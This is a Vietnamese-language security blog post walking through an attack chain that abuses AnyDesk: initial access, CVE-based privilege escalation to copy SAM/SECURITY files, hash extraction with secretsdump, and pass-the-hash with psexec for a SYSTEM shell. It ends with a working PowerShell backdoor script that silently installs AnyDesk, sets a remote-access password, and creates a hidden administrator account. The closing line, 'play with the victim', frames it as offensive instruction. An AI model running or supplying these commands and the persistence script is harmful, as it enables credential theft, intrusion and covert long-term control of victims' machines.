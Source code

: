 ```yaml
---
title: "Repurposing remote desktop application as a strategic exploit"
published: 2025-02-10
description: ""
image: ""
tags:
  - "VulnResearch"
  - "WindowsInternal"
category: "Cybersecurity"
draft: false 
lang: "en"
---
```

![alt text](new-1.png)
Trong thế giới an ninh mạng, công cụ hợp pháp đôi khi trở thành vũ khí nguy hiểm khi rơi vào tay kẻ tấn công. Các ứng dụng Remote Desktop như AnyDesk, TeamViewer, Windows RDP không chỉ hỗ trợ quản trị hệ thống từ xa mà còn mở ra cơ hội cho Red Team thực hiện **Lateral Movement**, Leo thang đặc quyền (**Privilege Escalation**), và Duy trì truy cập (**Persistence**).

Trong bài viết này, chúng ta sẽ đi tìm hiểu một chuỗi kịch bản tấn công sử dụng AnyDesk – từ xâm nhập ban đầu đến thiết lập duy trì kết nối lâu dài.

## **🕵️♂️ Initial Access**  
![alt text](image-3.png)
**1. Social Engineering**  
Các nhóm ransomware như **Black Basta,Lockbit,...** thường gửi hàng loạt email đăng ký newsletter hợp pháp, gây nhiễu loạn hệ thống, sau đó liên hệ qua điện thoại (vờ là bộ phận IT) để dụ nạn nhân tải AnyDesk để "khắc phục sự cố".

**2. Phishing**  
Email/website giả mạo dụ người dùng tải phiên bản AnyDesk độc hại (chứa backdoor hoặc các phiên bản cũ có dính lổ hổng bảo mật) hoặc nhập thông tin xác thực giả. Khi cài đặt thành công, attacker toàn quyền điều khiển máy nạn nhân qua giao diện AnyDesk.

**3. Lỗ hổng Phần mềm** 
Các phiên bản AnyDesk chưa vá (đặc biệt lỗi **CVE-2021-44425**) cho phép attacker khai thác để chiếm quyền truy cập trái phép.  

**4. Unattended Access**
Tính năng "truy cập không giám sát" cho phép kết nối từ xa mà không cần xác nhận của người dùng. Attacker brute-force password hoặc dùng credential rò rỉ để duy trì kết nối ngầm.  
### **🌐 CVE-2021-44425**  
![alt text](image.png)
Khi sử dụng tính năng tunneling, client Windows của AnyDesk mở ra một cổng lắng nghe không cần thiết trên máy thuộc LAN của kẻ tấn công. Điều này cho phép kẻ tấn công truy cập trái phép vào bộ giao thức tunneling của AnyDesk trên máy cục bộ, cũng như vào bất kỳ phần mềm nào trên máy đích từ xa đang lắng nghe qua cổng được tunnel.

**Kịch bản Tấn công:**  
- **Bối cảnh:** Nhân viên công ty dùng AnyDesk tunnel để kết nối máy chủ nội bộ từ quán cà phê.  
- **Lỗi Binding TCP:** AnyDesk mặc định bind tunnel qua **0.0.0.0** (tất cả interface), kẻ tấn công cùng mạng Wi-Fi có thể:  
  - **Chiếm quyền Truy cập:** Khai thác cổng mạng bị lộ để tấn công dịch vụ nội bộ.  
  - **Leo thang Đe dọa:** Xâm nhập sâu vào mạng "an toàn", đánh cắp dữ liệu nhạy cảm qua kênh tunnel.  

**Hệ lụy:**  
- Dịch vụ nội bộ (database, file server) bị phơi bày trên mạng công cộng.  
- Attacker chiếm quyền điều khiển toàn bộ stack giao tiếp AnyDesk của nạn nhân.  

## 🛠️ Privilege Escalation
Ở case này chúng ta có thể tận dụng lổ hổng **CVE-2024-12754** để khai thác Local Privilege Escalation.
### **🌐 CVE-2024-12754**  
CVE-2024-12754 bắt nguồn từ cơ chế `READ/WRITE` file tùy ý của AnyDesk service, vốn chạy với quyền `NT AUTHORITY\SYSTEM`. 
![alt text](image-4.png)
Điều này đồng nghĩa với việc chúng ta có thể sao chép bất kỳ tệp nào đến một vị trí mà người dùng có đặc quyền thấp có thể truy cập, đồng thời vẫn giữ nguyên quyền sở hữu và các thiết lập quyền hạn ban đầu.
![alt text](image-9.png)
Vậy chúng ta sẽ có kịch bản tấn công như sau:
1. **Tận dụng lỗ hổng để copy file SAM/SECURITY**

Chúng ta có thể kết hợp khai thác lỗ hổng và phương pháp Shadow Copy từ mã nguồn sau: https://github.com/Wh04m1001/VSSCopy (sử dụng hàm NtQueryDirectoryObject để thực hiện việc copy) để có thể copy các file SAM/SECURITY.
![alt text](image-10.png)
> Note: **NtQueryDirectoryObject** là một hàm trong Windows Native API (NTAPI), thuộc nhóm hàm quản lý Object Manager của Windows. Hàm này cho phép truy vấn danh sách các Object Directory trong Windows Object Manager, giúp liệt kê các đối tượng hệ thống như named pipes, mutexes, events, symbolic links, shared memory, và device objects. 
```C
NTSTATUS NtQueryDirectoryObject(
  HANDLE DirectoryHandle, //Handle của Object Directory cần truy vấn.
  PVOID Buffer, //Bộ đệm chứa danh sách các đối tượng (trả về sau khi gọi hàm).
  ULONG Length, //Kích thước bộ đệm Buffer (tính bằng byte).
  BOOLEAN ReturnSingleEntry, // TRUE: Trả về một đối tượng duy nhất trong mỗi lần gọi. FALSE: Trả về danh sách đầy đủ các đối tượng có trong thư mục.
  BOOLEAN RestartScan, //TRUE: Quét lại từ đầu danh sách đối tượng. FALSE: Tiếp tục quét từ vị trí trước đó.
  PULONG Context, //Con trỏ đến vị trí quét hiện tại (giá trị sẽ được cập nhật khi quét danh sách đối tượng).
  PULONG ReturnLength //Trả về số byte thực tế được ghi vào Buffer.
);
```
Chúng ta xây dựng poc và output sau khi chạy poc của chúng ta:![alt text](image-7.png)
2. **Trích xuất Credential:**  
Sau khi chúng ta lấy được file SAM/SECURITY, chúng ta sử dụng các công cụ như `secretsdump.py` hoặc `mimikatz` để phân tích:
   - NTLM Hash của tài khoản Administrator.
   - LSA Secrets (dữ liệu nhạy cảm trong registry).
   - Cached Credentials (thông tin đăng nhập lưu cache).
      - Ví dụ: Dùng `secretsdump` trong bộ `impacket` để trích xuất hash.
      
      Command như sau: `python .\.venv\Scripts\secretsdump.py -sam .\Result\sam -system .\Result\system LOCAL`

      Output:!![alt text](image-8.png)
3. **Lấy shell**

Chúng ta có thể sử dụng kỹ thuật Pass The Hash để lấy **system shell**.

Sử dụng `psexec` từ bộ impacket để chạy **shell** với hash đã trích xuất được với cú pháp sau:
`impacket-psexec -hashes <LMHash>:<NTHash> <username>@<ip>`

**Kết quả:**  
![alt text](image-5.png)

Chúng ta có thể chạy shell với quyền `NT AUTHORITY\SYSTEM`. 
   ![Mô tả ảnh](sticker_2134-512x512.png)

## **🔮 Persistence - Backdooring AnyDesk for Future Access**  
Chúng ta cũng có thể tận dụng AnyDesk để persistence thông qua tính năng cho phép đặt mật khẩu điều khiển từ xa.
Scripts dưới đây cho phép cài đặt AnyDesk một cách âm thầm và đặt mật khẩu để có quyền truy cập từ xa và đồng thời tạo ra một người dùng mới với các đặc quyền quản trị viên và ẩn tài khoản mới khỏi màn hình đăng nhập Windows.
```powershell
# Tải & Cài đặt AnyDesk ngầm
mkdir "C:\ProgramData\AnyDesk"
$clnt = New-Object System.Net.WebClient
$clnt.DownloadFile("http://download.anydesk.com/AnyDesk.exe", "C:\ProgramData\AnyDesk.exe")
Start-Process "C:\ProgramData\AnyDesk.exe" -ArgumentList "--install C:\ProgramData\AnyDesk --start-with=win --silent" -Wait
# Đặt mật khẩu điều khiển từ xa
Start-Process "C:\ProgramData\anydesk.exe" -ArgumentList "--set-password hacker@123" -Wait
# Tạo user ẩn với quyền Admin
net user oldadministrator "hacker#213" /add
net localgroup Administrators oldadministrator /ADD
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v oldadministrator /t REG_DWORD /d 0 /f
```  
Bằng cách chạy đoạn script trên, Attacker có thể kết nối với target qua AnyDesk bất kỳ lúc nào. 
![alt text](image-12.png)
<h2><strong style="color: red;">Now you pwned everything!!! It’s your time to play with the victim.</strong><h2>